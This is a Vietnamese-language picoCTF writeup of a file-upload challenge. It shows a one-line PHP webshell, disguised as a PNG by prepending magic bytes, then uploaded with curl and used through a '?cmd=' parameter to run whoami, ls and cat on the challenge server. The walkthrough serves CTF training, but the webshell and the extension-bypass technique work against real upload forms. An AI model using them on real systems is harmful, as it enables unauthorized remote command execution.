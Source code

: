 # 📄 Challenge Writeup: File Upload RCE – picoCTF

## 🧠 Mục tiêu
Upload một **webshell** giả dạng file `.png`, rồi thực thi lệnh hệ thống để lấy flag.

---

## 🔍 Recon

Truy cập địa chỉ challenge:
```
http://atlas.picoctf.net:PORT/
```

Giao diện đơn giản cho phép **upload file ảnh** (`.png`).  
Nếu upload sai định dạng → báo lỗi:
```
Error: File name does not contain '.png'
```

---

## 🧪 Ý tưởng khai thác
1. Upload **PHP shell** nhưng **tên file có đuôi `.png`**
2. Bypass kiểm tra extension → server chỉ check tên file.
3. Thêm **magic bytes PNG** đầu file để qua mặt check MIME (nếu có).
4. Truy cập file shell để thực thi lệnh qua `?cmd=`

---

## 🛠️ Tạo Webshell PNG

### 1. Tạo file `shell.php`
```php
<?php system($_GET['cmd']); ?>
```

### 2. Thêm header PNG để ngụy trang

#### PowerShell (Windows)
```powershell
[System.IO.File]::WriteAllBytes("shell.php.png", @(0x89,0x50,0x4E,0x47,0x0D,0x0A,0x1A,0x0A))
Get-Content shell.php -Raw | Out-File -Append -Encoding ASCII shell.php.png
```

#### Bash (Linux)
```bash
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.php.png
cat shell.php >> shell.php.png
```

---

## 📤 Upload File

Dùng Burp Suite hoặc curl:
```bash
curl -F 'file=@shell.php.png' http://atlas.picoctf.net:PORT/
```

Khi thành công → file được lưu tại `/uploads/shell.php.png`

---

## 🧨 RCE (Command Execution)

Truy cập shell:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.php.png?cmd=whoami"
```

Test `ls`, `pwd`, `cat`:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.php.png?cmd=ls+.."
curl "http://atlas.picoctf.net:PORT/uploads/shell.php.png?cmd=cat+../MFRDAZLDMUYDG.txt"
```

---

## 🏁 Flag

Kết quả:
```
Là gì thì tự tìm đi nhen
```

---

## 📚 Tổng kết

| Bước | Nội dung |
|------|----------|
| 1️⃣ | Khảo sát upload |
| 2️⃣ | Ngụy trang file shell với PNG header |
| 3️⃣ | Upload thành công `.php.png` |
| 4️⃣ | Truy cập URL với `?cmd=` để RCE |
| 5️⃣ | Di chuyển thư mục, `cat` file để lấy flag |